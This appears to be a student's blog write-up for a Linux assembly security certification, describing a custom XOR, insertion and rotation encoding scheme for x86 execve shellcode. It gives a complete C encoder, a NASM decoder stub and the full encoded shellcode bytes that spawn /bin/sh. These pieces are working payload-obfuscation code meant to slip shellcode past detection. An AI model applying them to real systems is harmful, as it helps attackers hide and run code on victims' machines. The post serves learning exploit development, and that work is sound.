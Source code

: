 ```yaml
---
comments: true
date: 2014-04-09
layout: blog
title: 'SLAE Assignment 4: Custom Encoding Schema'
summary: '4th assignment of the SLAE'
category: blog
image: /images/header_images/slaelogo.png
tags: [asm-x86,nasm,slae]
---
```


This is the fourth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a custom encoding schema like "insertion encoder"

  2. Create a working demo using execve-stack as the shellcode to encode, decode and run with the created schema

The custom encoding schema that I chose to create works as follow:

  1. The execve shellcode is encoded with XOR

  2. The result will be encoded using the insertion encoder with an incrementing value

  3. Every 32 bits the above result will be rotated (left or right, you choose) of 16 bits.

To encode the execve shellcode, like I wrote above, I developed the following C program:


```c
//Description:	Assignment #4 (PoC of Custom_Encoding_Schema)
//Author:	Paolo Stivanin <https://github.com/polslinux>
//SLAE ID:	526

#include <stdint.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

#define ROL 0x00
#define ROR !ROL

void concatenate(uint8_t [], uint32_t);
void rotate(uint32_t, uint32_t, uint32_t);
void split_uint32(uint32_t);

uint8_t *finalShellcode;
uint32_t counter = 0;

int main(void){
	uint8_t execveShellcode[] = {0xeb,0x25,0x5e,0x89,0xf7,0x31,0xc0,0x50,0x89,0xe2,0x50,0x83,0xc4,0x03,0x8d,0x76,0x04,0x33,0x06,0x50,0x31,0xc0,0x33,0x07,0x50,0x89,0xe3,0x31,0xc0,0x50,0x8d,0x3b,0x57,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0xe8,0xd6,0xff,0xff,0xff,0x2f,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68};
	uint8_t xorByte = 0x1c;
	uint8_t insertByte = 0xb2;

	size_t LEN=sizeof(execveShellcode);
	uint8_t xorWithInsertion[LEN*2];
	uint32_t i, j=0;

	restart:
	for(i=0; i<LEN; i++){
		if(execveShellcode[i] == xorByte){
			xorByte += 1;
			goto restart;
		}
	}
	for(i=0; i<LEN; i++){
		execveShellcode[i] ^= xorByte;
	}

	printf("XOR(Shellcode) using 0x%02x:\n", xorByte);
	for(i=0; i<LEN; i++){
		if(i==LEN-1) printf("0x%02x", execveShellcode[i]);
		else printf("0x%02x,", execveShellcode[i]);
	}
    
	for(i=0; i<LEN*2; i++){
		xorWithInsertion[i] = execveShellcode[j++];
		xorWithInsertion[++i] = insertByte++;
	}
	printf("\n\nINSERTION(XOR(Shellcode)):\n");
	for(i=0; i<LEN*2; i++){
		if(i==(LEN*2)-1) printf("0x%02x", xorWithInsertion[i]);
		else printf("0x%02x,", xorWithInsertion[i]);
	}	

	printf("\n\nROL16(XOR(INSERTION(Shellcode))):\n");

	finalShellcode = malloc(sizeof(xorWithInsertion));
	concatenate(xorWithInsertion, sizeof(xorWithInsertion));

	for(i=0; i<LEN*2; i++){
		if(i==(LEN*2)-1) printf("0x%02x", finalShellcode[i]);
		else printf("0x%02x,", finalShellcode[i]);
	}
	printf("\n");

	free(finalShellcode);

	return 0;
}
    
void concatenate(uint8_t arr[], uint32_t size){
   	if(size % 4 != 0){
   		printf("Size must be a multiple of 4\n");
   		return;
   	}
   
   	uint32_t i, value = 0;
    
   	for(i=0;i<size;i++){
   		value = value^arr[i];
   		if(i%4 == 3){
   			rotate(value, 16, ROL);
   			value = 0;
   		}
   		else value = value<<8;
   	}
}
    
void rotate(uint32_t input, uint32_t bits, uint32_t direction){
    uint32_t output;
    
    if(direction == ROL){
    	output = input << (bits % (8 * sizeof(uint32_t)));
    	output |= input >> ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
    }
    else
    {
    	output = input >> (bits % (8 * sizeof(uint32_t)));
    	output |= input << ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
   	}
   	split_uint32(output);
}
    
void split_uint32(uint32_t splitMe){
   	uint32_t j;
   	uint8_t b[4];
   	b[0] = (splitMe >> 24);
   	b[1] = (splitMe >> 16) & 0xff;
   	b[2] = (splitMe & 0xffff) >> 8;
   	b[3] = (splitMe & 0xff);
   	for(j=0; j<4; j++){
   		finalShellcode[counter++] = b[j];
   	}
}
```

And this is the shellcode used to decode and execute the original execve shellcode:

```nasm    
;Description:	Assignment #4 (Custom_Encoding_Schema, 82 (decoder) + 104 (EncodedShellcode) bytes)
;Shellcode:		\xeb\x4b\x5e\x31\xc0\x31\xdb\xb1\x0d\x31\xd2\x8a\x26\x8a\x46\x01\xc1\xc0\x10\x8a\x66\x02\x8a\x46\x03\x83\xc6\x04\x8a\x3e\x8a\x5e\x01\xc1\xc3\x10\x8a\x7e\x02\x8a\x5e\x03\x83\xc6\x04\x88\xe6\xc1\xc0\x10\x88\xf0\xc1\xc0\x10\x88\xfe\xc1\xc3\x10\x88\xf3\x66\x89\xd8\x35\x1c\x1c\x1c\x1c\x50\xfe\xc9\x75\xc0\xff\xe4\xe8\xb0\xff\xff\xff\x74\xe5\x6f\xe4\x33\xe3\x72\xe2\x75\xe1\x7e\xe0\x33\xdf\x33\xde\xe3\xdd\xe3\xdc\xe3\xdb\xca\xda\xf4\xd9\x9c\xd8\xd1\xd7\x17\xd6\xac\xd5\xfd\xd4\x95\xd3\x4b\xd2\x27\xd1\x91\xd0\x4c\xcf\xdc\xce\x2d\xcd\xff\xcc\x95\xcb\x4c\xca\x1b\xc9\x2f\xc8\xdc\xc7\x2d\xc6\x4c\xc5\x1a\xc4\x2f\xc3\x18\xc2\x6a\xc1\x91\xc0\x1f\xbf\xd8\xbe\x9f\xbd\x4c\xbc\xfe\xbb\x95\xba\x4c\xb9\xdc\xb8\x2d\xb7\xeb\xb6\x95\xb5\x42\xb4\x39\xb3\xf7\xb2
;Author:	Paolo Stivanin <https://github.com/polslinux>
;SLAE ID:	526

global _start
section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi
	xor eax,eax
	xor ebx,ebx
	mov cl,13	;This is the counter. The shellcode is 104 bytes and this program read 8 byte every cycle so 104/8=13
	xor edx,edx
ll:	mov ah, BYTE [esi]
	mov al, BYTE [esi +1]
	rol eax,16
	mov ah, BYTE [esi +2] 
	mov al, BYTE [esi +3]
	add esi,4
	mov bh, BYTE [esi]
	mov bl, BYTE [esi +1]
	rol ebx,16
	mov bh, BYTE [esi +2]
	mov bl, BYTE [esi +3]
	add esi,4

	mov dh,ah
	rol eax,16
	mov al,dh
	rol eax,16

	mov dh,bh
	rol ebx,16
	mov bl,dh

	mov ax,bx
	xor eax,0x1c1c1c1c
	push eax
	dec cl
	jnz ll
	jmp esp	

call_shellcode:
	call decoder
	EncodedShellcode db 0x74,0xe5,0x6f,0xe4,0x33,0xe3,0x72,0xe2,0x75,0xe1,0x7e,0xe0,0x33,0xdf,0x33,0xde,0xe3,0xdd,0xe3,0xdc,0xe3,0xdb,0xca,0xda,0xf4,0xd9,0x9c,0xd8,0xd1,0xd7,0x17,0xd6,0xac,0xd5,0xfd,0xd4,0x95,0xd3,0x4b,0xd2,0x27,0xd1,0x91,0xd0,0x4c,0xcf,0xdc,0xce,0x2d,0xcd,0xff,0xcc,0x95,0xcb,0x4c,0xca,0x1b,0xc9,0x2f,0xc8,0xdc,0xc7,0x2d,0xc6,0x4c,0xc5,0x1a,0xc4,0x2f,0xc3,0x18,0xc2,0x6a,0xc1,0x91,0xc0,0x1f,0xbf,0xd8,0xbe,0x9f,0xbd,0x4c,0xbc,0xfe,0xbb,0x95,0xba,0x4c,0xb9,0xdc,0xb8,0x2d,0xb7,0xeb,0xb6,0x95,0xb5,0x42,0xb4,0x39,0xb3,0xf7,0xb2
```

Please note that _EncodedShellcode_ **must be wrote in reverse order**. To perform this task, you can use [this small program](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/reverse-shellcode.c) which I have developed.

Using libemu I made a graph of the execution flow of the above shellcode:

[![graph_assign4]({{ site.baseurl }}/images/2014/04/graph_assign4-551x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign4.png)

It works ;-)

[![assign4]({{ site.baseurl }}/images/2014/04/assign4-1024x525.png)]({{ site.baseurl }}/images/2014/04/assign4.png)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).



This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
